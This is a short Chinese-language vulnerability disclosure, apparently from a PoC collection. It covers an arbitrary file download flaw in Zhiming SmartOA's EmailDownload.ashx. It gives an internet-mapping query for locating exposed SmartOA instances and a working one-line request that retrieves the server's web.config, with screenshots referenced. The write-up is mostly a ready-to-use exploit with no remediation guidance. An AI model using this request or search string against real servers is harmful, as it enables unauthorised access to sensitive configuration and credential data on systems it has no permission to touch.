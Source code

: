 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

```
智明 SmartOA
```

## 网络测绘

```
app="智明协同-SmartOA"
```

## 漏洞复现

登录页面

![image-20220520133519986](./images/202205201335202.png)

验证POC

```
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![image-20220520133538762](./images/202205201335862.png)